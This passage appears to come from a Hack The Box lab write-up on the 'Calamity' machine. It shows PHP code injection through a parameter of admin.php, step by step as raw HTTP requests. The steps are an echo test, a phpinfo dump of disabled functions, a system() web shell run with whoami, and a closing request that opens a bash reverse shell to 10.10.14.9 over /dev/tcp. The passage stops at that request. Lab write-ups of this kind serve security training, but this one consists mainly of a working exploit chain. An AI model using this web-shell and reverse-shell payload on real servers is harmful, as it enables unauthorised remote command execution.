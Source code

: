 Our first test is actual harmless HTML as the page is intended to be used and we see that our code is visible on the page.

```http
GET /admin.php?html=%3C%3Fphp+echo+%22test%22%3B+%3F%3E HTTP/1.1
Host: 10.10.10.27

...
test
```

Sending `<?php echo "test"; ?>` results in only `test` on the page so our PHP code is executed.

```http
GET /admin.php?html=<%3fphp+phpinfo()%3b+%3f> HTTP/1.1
Host: 10.10.10.27

<tr>
   <td class="e">disable_functions</td>
   <td class="v">pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,</td>
   <td class="v">pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,</td>
</tr>
```

![Disabled PHP functions](/assets/images/HTB-Calamity/1.a%20disabled%20PHP%20functions.png)

Our next test uses `<?php phpinfo(); ?>` so we can see if any php functions are disabled and if so which ones are.

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=whoami HTTP/1.1
Host: 10.10.10.27

...
www-data
```

`<?php system($_REQUEST["cmd"]); ?>` combined with `cmd=whoami` will execute the `whoami` command on the webserver and show we're running as `www-data`.

```http
GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/443+0>%261' HTTP/1.1
Host: 10.10.10.27
```
